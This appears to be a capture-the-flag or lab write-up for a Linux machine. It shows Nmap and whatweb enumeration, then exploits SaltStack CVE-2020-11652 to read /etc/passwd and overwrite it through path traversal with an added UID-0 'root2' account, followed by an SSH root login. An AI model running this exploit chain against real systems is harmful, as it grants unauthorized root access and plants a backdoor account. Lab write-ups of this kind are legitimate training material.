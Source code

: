 ____
IP= 192.168.179.62
Linux


# Nmap
| PORT   | STATE  | SERVICE    |
|--------|--------|------------|
| 22/tcp | open   | ssh        |
| 53/tcp | open   | domain     |
| 80/tcp | open   | http       |
|4505/tcp| open   | unknown    |
|4506/tcp| open   | unknown    |
|8000/tcp| open   | http-alt   |

```python
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (application/json).
```

## 80 - http

```bash
whatweb http://$IP
http://192.168.179.62 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.16.1], IP[192.168.179.62], JQuery[1.8.3], Script, Title[Home | Mezzanine], X-Frame-Options[SAMEORIGIN], nginx[1.16.1]
```

- nginx/1.16.1
- mezzanine

```bash
Mezzanine 4.2.0 - Cross-Site Scripting 
```

# 8000 - http

```bash
whatweb http://$IP:8000
http://192.168.179.62:8000 [200 OK] Allow[GET, HEAD, POST], Country[RESERVED][ZZ], HTTPServer[nginx/1.16.1], IP[192.168.179.62], UncommonHeaders[access-control-expose-headers,access-control-allow-credentials,access-control-allow-origin,x-upstream], nginx[1.16.1]
```

![[Pasted image 20240131214151.png]]

## 4505/4506 zmtp

ZeroMQ is a messaging library that provides high-level messaging patterns like publish/subscribe and request/reply for distributed or concurrent applications. ZMTP is the protocol used by ZeroMQ for communication between nodes.

### Saltstack 3000.1 - Remote Code Execution
https://www.exploit-db.com/exploits/48421
https://github.com/Al1ex/CVE-2020-11652

```bash
python3 exploit.py --master 192.168.179.62 -r /etc/passwd
```

Add root2 line
```bash
openssl passwd dani
```

```txt
root2:$1$MDuShAdK$.tLVPCC0Sbbi11xRhnez91:0:0:root:/root:/bin/bash
```

```bash
python3 CVE-2020-11652.py --master 192.168.179.62 --upload-src passwd --upload-dest ../../../../../../../../etc/passwd
```


## 22 - ssh

```bash
ssh root@$IP
dani
```



